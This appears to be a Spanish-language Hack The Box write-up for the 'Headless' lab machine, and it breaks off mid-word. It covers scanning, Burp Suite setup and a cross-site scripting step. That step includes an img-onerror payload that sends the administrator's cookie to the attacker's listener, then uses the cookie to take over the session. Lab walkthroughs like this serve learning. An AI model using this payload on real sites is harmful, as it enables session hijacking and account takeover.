 #MÁQUINA HEADLESS

![image](https://github.com/ElSantiagoBernal/HACK-THE-BOX/assets/100774275/9f252485-3b0e-4e77-9f7b-cd3f3ec93386)

En primera instancia, procedemos a conectarnos a la VPN

![image](https://github.com/ElSantiagoBernal/HACK-THE-BOX/assets/100774275/498cb47d-d1a2-4b5b-89db-fa41153793f6)

Una vez conectados, procedemos a hacer el Nmap a la ip de la maquina (10.10.11.8)

![image](https://github.com/ElSantiagoBernal/HACK-THE-BOX/assets/100774275/62f3c5df-2a57-4f87-a10d-0b547fb749d9)

Como podemos apreciar, tenemos dos puertos abiertos, el puerto 5000/tcp indica que el puerto 5000 está abierto y está utilizando el protocolo TCP (Transmission Control Protocol). En este caso, también se especifica que el servicio que está utilizando este puerto es "upnp". UPnP (Universal Plug and Play) es un conjunto de protocolos de red que permite a dispositivos en una red comunicarse entre sí sin necesidad de configuración manual por parte del usuario o un administrador de red.

En este caso vamos a tratar de entrar a este puerto. 

Si nos vamos al navegador y ponemos la ip de la maquina junto con el puerto (10.10.11.8:5000) podremos apreciar lo siguiente

![image](https://github.com/ElSantiagoBernal/HACK-THE-BOX/assets/100774275/131640d5-e21b-422b-b9bb-9ae8b848d582)

Si presionamos el botón “For questions” podremos apreciar lo siguiente: 

![image](https://github.com/ElSantiagoBernal/HACK-THE-BOX/assets/100774275/6f9f8931-4dae-4966-82b6-c04a6272a059)

Si en Message, podemos un código, en este caso la etiqueta script para causar error a propósito (Pues no está finalizado el cierre), podremos apreciar lo siguiente

![image](https://github.com/ElSantiagoBernal/HACK-THE-BOX/assets/100774275/443744f1-606c-4931-acbe-a08a86c5bb22)

Donde podremos ver el cookie del administrador, pero esto aún no es para iniciar sesión como este. 

Podremos ver el mismo valor si inspeccionamos la página y ns dirigimos a "Storage":

![image](https://github.com/ElSantiagoBernal/HACK-THE-BOX/assets/100774275/9de3e621-dd0e-435f-ab09-f2787352ab93)

![image](https://github.com/ElSantiagoBernal/HACK-THE-BOX/assets/100774275/91a41c5c-9476-4be6-9120-82ff7ff37d30)

#CONFIGURACIÓN BURP SUITE

En primera instancia procedemos a configurar nuestro Burp Suite, agregando un proxy con la ip y puerto '127.0.0.1:8080'

![image](https://github.com/ElSantiagoBernal/HACK-THE-BOX/assets/100774275/606f6dbd-1b2a-41b8-9786-67c7443584b8)

Y luego procedemos a instalar la extensión 'FoxyProxy' para poder escuchar y hacer peticiones a la página que se mostró en un principió.

![image](https://github.com/ElSantiagoBernal/HACK-THE-BOX/assets/100774275/18908790-ead9-4e02-8ed2-04249bb878b7)


![image](https://github.com/ElSantiagoBernal/HACK-THE-BOX/assets/100774275/cc9280e4-f67a-46ab-9bef-ddfcbd4897a6)

Una vez instalada procedemos a irnos a opciones: 

![image](https://github.com/ElSantiagoBernal/HACK-THE-BOX/assets/100774275/8affec6d-3e87-4d2b-a0fa-d5e8ffcf95e7)

Y luego a 'Proxies' con la misma ip y puerto que tenemos en el Burp Suite

![image](https://github.com/ElSantiagoBernal/HACK-THE-BOX/assets/100774275/f1cefa7d-186a-4e3a-9a1e-7d8835f4b12c)

Nos tendrá que aparecer algo así:


![image](https://github.com/ElSantiagoBernal/HACK-THE-BOX/assets/100774275/c4b9f52f-e147-4663-a9e3-6165aaad5c09)

Seleccionamos el que hemos creado y seleccionamos el botón Submmit para luego dirigirnos al apartado de Proxy en Burp. La petición se verá así:

![image](https://github.com/ElSantiagoBernal/HACK-THE-BOX/assets/100774275/06489428-6891-4491-ba17-66e0bd97dc4e)

Le damos clic derecho y lo enviamos al 'Repeater' para realizar las peticiones:


![image](https://github.com/ElSantiagoBernal/HACK-THE-BOX/assets/100774275/ca86451e-9974-4fbd-b53e-4fac23608f56)


![image](https://github.com/ElSantiagoBernal/HACK-THE-BOX/assets/100774275/8bbb56fb-4598-4f91-8041-57e67bd18334)

#INICIO HACKEO

Primero procedemos a conocer la ip de nuestra máquina virtual:

```
ip a
```

![image](https://github.com/ElSantiagoBernal/HACK-THE-BOX/assets/100774275/8c0c0378-3daa-4269-a827-0f90a27580ab)

Lugo pondremos a escuchar un puerto, en este caso es: 1234

```
python3 -m http.server 1234
```

![image](https://github.com/ElSantiagoBernal/HACK-THE-BOX/assets/100774275/1e55d1d6-da06-4c4d-bb7c-8d7d3ad59eac)

Para luego enviar la siguiente solicitud en el campo 'message' con la ip de la máquina y el puerto que pusimos a escuchar para obtener el cookie de la página para acceder como administrador

```
<img src=x onerror=fetch('http://10.10.14.28:1234/'+document.cookie);>
```

![image](https://github.com/ElSantiagoBernal/HACK-THE-BOX/assets/100774275/805d6cc8-efff-4827-a678-b99bc9ad734f)

Luego de enviarla veremos que se obtuvo lo siguiente 

![image](https://github.com/ElSantiagoBernal/HACK-THE-BOX/assets/100774275/13111897-cc7f-4468-b1ce-b0a86bcc7abd)

Donde podemos observar el valor de la llave del administrador

Luego, nos vamos a inspeccionar de nuevo la pagina web y nos vamos a 'Storage para reemmplazar el valor de la cookie del administradir por el nuevo que nos trajo cuando se escuchó el puerto:

![image](https://github.com/ElSantiagoBernal/HACK-THE-BOX/assets/100774275/c0518daf-fcbe-44e9-811f-5a16b36c8157)

Recargamos y como podemos ver tenemos acceso al panel del administrador

![image](https://github.com/ElSantiagoBernal/HACK-THE-BOX/assets/100774275/3d9f991f-97db-4dcd-8c24-af91e57568d9)

Y al presionar el botón 'Generate Report' podremos ver la petición en el Burp Suite, donde la enviaremos al 'Repeater'

![image](https://github.com/ElSantiagoBernal/HACK-THE-BOX/assets/100774275/70c9c307-27f9-4a36-a987-dc4a061517e8)

Una ve









